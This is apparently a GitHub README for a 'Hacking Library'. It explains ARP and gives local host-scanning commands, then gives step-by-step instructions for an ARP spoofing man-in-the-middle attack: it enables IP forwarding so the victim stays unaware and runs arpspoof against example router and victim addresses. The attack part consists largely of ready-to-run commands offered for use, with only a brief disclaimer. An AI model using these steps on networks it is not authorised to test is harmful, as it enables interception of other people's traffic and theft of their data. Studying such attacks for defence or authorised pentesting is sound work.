 # Introduction to Hacking Library

The goal of this library is to create an archive of useful tools and how to use them, mostly for:

- Hacking
- Pentests 
- Security

Remember, this is only a guide, use the knowledge here wisely and at your own risk.

Have fun!

# Analysis Tools 

## ARP

The ARP protocol (Address Resolution Protocol) associates every MAC address with an IP address in the local network. The way this works is with a broadcast in the local network, asking every host about their pairs IP/MAC. Every time a broadcast occurs the host sends his own pair IP/MAC besides asking other hosts their pairs, so it can be saved into a cache in every machine.

You can check the cache in your own machine with:

```console
arp -a
```

Using ARP protocol you can either scan your local network to discover hosts, revealing their MAC addresses and internet adapter manufacturer:

```console
sudo arp-scan --interface=eth0 --localnet
```

or try to guess the OS of the hosts with:

```console
sudo arp-fingerprint -l
```

# Attack Tools

## ARP Spoofing

The objective of this attack is to add/replace some entries in the ARP table making the router believe that the attacker is in reality the victim and making the victim believe that the attacker is the router.

![ARP Spoofing Image](/img/ARP%20Spoofing.png)

### Enabling fowarding

First you need to enable fowarding of packets so the victim doesn't know that something happened.

#### Temporary fowarding

For temporary fowarding (this will disable fowarding when the machine is rebooted):

```console
sudo sysctl -w net.ipv4.ip_forward=1
```

or 

```console
 sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

#### Permanent fowarding

```console
 sudo nano /etc/sysctl.conf
```

then find the line:

```
#Uncomment the next line to enable packet forwarding for IPv4
#net.ipv4.ip_forward=1
```

and delete the "#" in the second line:

```
#Uncomment the next line to enable packet forwarding for IPv4
net.ipv4.ip_forward=1
```

then

> Ctrl o

> Enter

> Ctrl x

and finally run this to apply the changes:

```console
 sudo sysctl -p /etc/sysctl.conf
```

### Making a man in the middle with Arpspoof:

To make this we will use this command two times:

```console
 sudo arpspoof -i {NETWORK_INTERFACE} -t {TARGET_IP} {IP_YOU_WILL_BE_PRETENDING_TO_BE}
```

#### First terminal:

First to make the router think that our machine is the victim:

```console
 sudo arpspoof -i {NETWORK_INTERFACE} -t {ROUTER_IP} {VICTIM_IP}
```

Example:

```console
 sudo arpspoof -i eth0 -t 192.168.0.1 192.168.0.104
```

#### Second terminal:

Then we make the victim think that our machine is the router:

```console
 sudo arpspoof -i {NETWORK_INTERFACE} -t {VICTIM_IP} {ROUTER_IP}
```

Example:

```console
 sudo arpspoof -i eth0 -t 192.168.0.104 192.168.0.1
```

and with this we have a man in the middle set.